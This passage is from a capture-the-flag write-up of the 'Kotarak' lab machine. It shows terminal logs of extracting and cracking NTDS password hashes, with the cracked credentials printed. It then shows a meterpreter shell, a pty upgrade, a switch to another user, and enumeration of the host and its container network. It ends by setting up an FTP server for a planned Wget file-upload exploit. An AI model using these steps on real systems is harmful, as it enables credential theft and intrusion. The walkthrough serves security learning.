<br>User name:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<font color="ffff00">atanas</font>
<br>User principal name:  
<br>SAM Account name:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;atanas
<br>SAM Account type:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;SAM_NORMAL_USER_ACCOUNT
<br>GUID:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;fcf6f550-6d74-434e-a2c0-c6b1e688cb6e
<br>SID:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;S-1-5-21-1036816736-4081296861-1938768537-1108
<br>When created:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;2017-07-21 14:00:11+00:00
<br>When changed:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;2017-07-21 14:14:31+00:00
<br>Account expires:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Never
<br>Password last set:&nbsp;&nbsp;&nbsp;&nbsp;2017-07-21 14:00:11.179960+00:00
<br>Last logon:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;2017-07-21 14:15:27.213569+00:00
<br>Last logon timestamp:&nbsp;2017-07-21 14:14:31.615071+00:00
<br>Bad password time&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Never
<br>Logon count:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;2
<br>Bad password count:&nbsp;&nbsp;&nbsp;0
<br>Dial-In access perm:&nbsp;&nbsp;Controlled by policy
<br>User Account Control:
<br>&nbsp;NORMAL_ACCOUNT
<br>Ancestors:
<br>&nbsp;$ROOT_OBJECT$, local, mrb3n, Users, atanas
<br>Password hashes:
<br>&nbsp;<font color="ffff00">atanas:$NT$2b576acbe6bcfda7294d6bd18041b8fe</font>:S-1-5-21-1036816736-4081296861-1938768537-1108::
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Downloads/ntdsxtract-master</font>#</p>

</div>
</font>

<br>Now we can crack the hash using [CrackStation](https://crackstation.net/)
![18](https://teckk2.github.io/assets/images/Kotarak/18.PNG)
![19](https://teckk2.github.io/assets/images/Kotarak/19.JPG)
<br>Administrator:f16tomcat!
<br>Atanas:Password123!
<br>Now with the Administrator password (**f16tomcat!**) we can login as Atanas user

<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">

<p>meterpreter > execute -i -f /bin/bash\r
<br>Process 1 created.
<br>Channel 3 created.
<br>python -c 'import pty;pty.spawn("/bin/bash")'
<br>tomcat@kotarak-dmz:/$ su -l atanas
<br>su -l atanas
<br>Password: f16tomcat!</p>

<p>atanas@kotarak-dmz:~$ id
<br>id
<br>uid=1000(atanas) gid=1000(atanas) <br>groups=1000(atanas),4(adm),6(disk),24(cdrom),30(dip),34(backup),46(plugdev),115(lpadmin),116(sambashare)
<br>atanas@kotarak-dmz:~$ ls
<br>ls
<br>user.txt
<br>atanas@kotarak-dmz:~$ cat user.txt
<br>cat user.txt
<br><font color="53E100">********************************</font>
<br>atanas@kotarak-dmz:~$ cd /root
<br>cd /root
<br>atanas@kotarak-dmz:/root$ ls
<br>ls
<br>app.log  flag.txt
<br>atanas@kotarak-dmz:/root$ cat flag.txt
<br>cat flag.txt
<br><font color="ffff00">Getting closer! But what you are looking for can't be found here.</font>
<br>atanas@kotarak-dmz:/root$ cat app.log
<br>cat app.log
<br>10.0.3.133 - - [20/Jul/2017:22:48:01 -0400] "GET /archive.tar.gz HTTP/1.1" 404 503 "-" "Wget/1.16 (linux-gnu)"
<br>10.0.3.133 - - [20/Jul/2017:22:50:01 -0400] "GET /archive.tar.gz HTTP/1.1" 404 503 "-" "Wget/1.16 (linux-gnu)"
<br>10.0.3.133 - - [20/Jul/2017:22:52:01 -0400] "GET /archive.tar.gz HTTP/1.1" 404 503 "-" "Wget/1.16 (linux-gnu)"
<br>atanas@kotarak-dmz:/root$ wget --version | head -n1
<br>wget --version | head -n1
<br><font color="ffff00">GNU Wget 1.17.1 built on linux-gnu.</font>
<br>atanas@kotarak-dmz:/root$ /sbin/ifconfig
<br>/sbin/ifconfig
<br>eth0&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Link encap:Ethernet  HWaddr 00:50:56:b9:13:2f  
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;inet addr:10.10.10.55  Bcast:10.10.10.255  Mask:255.255.255.0
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;inet6 addr: fe80::250:56ff:feb9:132f/64 Scope:Link
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;inet6 addr: dead:beef::250:56ff:feb9:132f/64 Scope:Global
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;RX packets:620851 errors:0 dropped:221 overruns:0 frame:0
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;TX packets:378284 errors:0 dropped:0 overruns:0 carrier:0
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;collisions:0 txqueuelen:1000 
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;RX bytes:53213235 (53.2 MB)  TX bytes:134268290 (134.2 MB)</p>

<p>lo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Link encap:Local Loopback  
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;inet addr:127.0.0.1  Mask:255.0.0.0
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;inet6 addr: ::1/128 Scope:Host
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;UP LOOPBACK RUNNING  MTU:65536  Metric:1
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;RX packets:2615080 errors:0 dropped:0 overruns:0 frame:0
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;TX packets:2615080 errors:0 dropped:0 overruns:0 carrier:0
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;collisions:0 txqueuelen:1 
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;RX bytes:193526563 (193.5 MB)  TX bytes:193526563 (193.5 MB)</p>

<p>lxcbr0&nbsp;&nbsp;&nbsp;&nbsp;Link encap:Ethernet  HWaddr 00:16:3e:00:00:00  
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;inet addr:10.0.3.1  Bcast:0.0.0.0  Mask:255.255.255.0
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;inet6 addr: fe80::216:3eff:fe00:0/64 Scope:Link
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;RX packets:12911 errors:0 dropped:0 overruns:0 frame:0
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;TX packets:12910 errors:0 dropped:0 overruns:0 carrier:0
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;collisions:0 txqueuelen:1000 
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;RX bytes:596808 (596.8 KB)  TX bytes:697024 (697.0 KB)</p>

<p>lxdbr0&nbsp;&nbsp;&nbsp;&nbsp;Link encap:Ethernet  HWaddr e2:4d:a2:e4:af:f0  
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;inet6 addr: fe80::e04d:a2ff:fee4:aff0/64 Scope:Link
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;inet6 addr: fe80::1/64 Scope:Link
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;RX packets:0 errors:0 dropped:0 overruns:0 frame:0
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;TX packets:5 errors:0 dropped:0 overruns:0 carrier:0
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;collisions:0 txqueuelen:1000 
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;RX bytes:0 (0.0 B)  TX bytes:470 (470.0 B)</p>

<p>veth3QLQLD&nbsp;Link encap:Ethernet  HWaddr fe:5d:56:f5:90:ba  
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;inet6 addr: fe80::fc5d:56ff:fef5:90ba/64 Scope:Link
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;RX packets:12911 errors:0 dropped:0 overruns:0 frame:0
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;TX packets:12918 errors:0 dropped:0 overruns:0 carrier:0
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;collisions:0 txqueuelen:1000 
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;RX bytes:777562 (777.5 KB)  TX bytes:697672 (697.6 KB)</p>

<p>atanas@kotarak-dmz:/root$</p>

</div>
</font>

<br>The machine is connected to a LXC container, So Every 2 minutes a LXC container requests a file on port 80 of kotarak. He (the container) have vulnerable wget, and the root.txt is there. So we will leak this file using the **GNU Wget** [exploit](https://www.exploit-db.com/exploits/40064/), But before that we need to download our pyftpdlib server and run it.

<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">

<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># pip2 install pyftpdlib
<br>Collecting pyftpdlib
<br>&nbsp;&nbsp;Downloading pyftpdlib-1.5.3.tar.gz (183kB)
<br>&nbsp;&nbsp;&nbsp;&nbsp;100% |████████████████████████████████| 184kB 267kB/s 
<br>Building wheels for collected packages: pyftpdlib
<br>&nbsp;&nbsp;Running setup.py bdist_wheel for pyftpdlib ... done
<br>&nbsp;&nbsp;Stored in directory: /root/.cache/pip/wheels/cf/28/4f/cb0ca75ed09b2fdd3e074ea7b94bcbed70bde3c7980d2a9936
<br>Successfully built pyftpdlib
<br>Installing collected packages: pyftpdlib
<br>Successfully installed pyftpdlib-1.5.3
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># python -m pyftpdlib -p 21 -w
<br>/usr/local/lib/python2.7/dist-packages/pyftpdlib/authorizers.py:244: RuntimeWarning: write permissions assigned to anonymous user.
<br>&nbsp;&nbsp;RuntimeWarning)
<br><font color="53E100">[I 2018-03-10 10:33:41]</font> starting FTP server on 0.0.0.0:21, pid=30212 
<br><font color="53E100">[I 2018-03-10 10:33:41]</font> concurrency model: async
<br><font color="53E100">[I 2018-03-10 10:33:41]</font> masquerade (NAT) address: None
<br><font color="53E100">[I 2018-03-10 10:33:41]</font> passive ports: None

</div>
</font>















